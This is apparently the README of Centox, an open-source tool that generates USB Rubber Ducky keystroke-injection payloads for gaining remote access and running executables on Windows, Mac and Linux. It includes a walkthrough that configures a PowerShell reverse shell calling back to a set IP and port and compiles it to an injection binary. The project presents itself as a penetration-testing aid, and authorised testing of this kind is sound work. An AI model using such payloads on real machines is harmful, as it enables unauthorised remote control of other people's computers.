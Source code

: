 <p align="center">
    <img src="/assets/media/logo.png" height="200">
</p>

<h1 align="center">
  Centox
</h1>

Centox is an injection handler written in python3 and is designed to provide a collection of injection
payloads written for the [USB Rubber ducky](https://shop.hak5.org/products/usb-rubber-ducky-deluxe/)
which was designed by [Hak5](https://shop.hak5.org/). This project comes with a collection of payloads
for establishing remote access, deploying and running executables and more in as short time as possible.
Centox comes with payloads designed Windows, Mac and Linux with the assumption that the target has not
modified their default shortcuts.


## Disclaimer

This project was designed for testing purposes __ONLY__ and is not to be used without explicit permission.
Hacking without permission while using this project is not encouraged nor can I be held responsible for
it's consequences.


## Installation

Downloading and running setup.py:
```
$ git clone https://github.com/Sigurd-Pettersen/Centox.git
$ sudo python3 Centox/setup.py
```
running setup.py will automatically generate a centox executable to be run in terminal.

## Usage
Starting the centox handler:
```
$ centox
```

the handler commands can be listed using the `help` command:
```
[Centox] $ help

Command    Description
---------  -------------------------------
list       lists all available payloads
use        choose a payload to use
set        sets payload argument variables
options    show all available arguments
generate   generates the current payload
help       shows this help message
```

how to generate payload:
```
[Centox] $ use windows/shell/powershell
 
[Centox] $ options
 
 Payload: windows/shell/powershell
 
Argument       Value
-------------  -------
start_delay    500
ip
port
windows_admin  false
 
[Centox] $ set ip 192.168.68.42
 
[Centox] $ set port 9999
 
[Centox] $ generate -o /home/user/inject.bin -l no
[*] created temporary folder -> /tmp/tmpfeccetz0
[*] writing raw payload to -> /tmp/tmpfeccetz0/payload
[*] compiling payload to injection binary...
[*] injection compiled successfully -> /home/user/inject.bin
```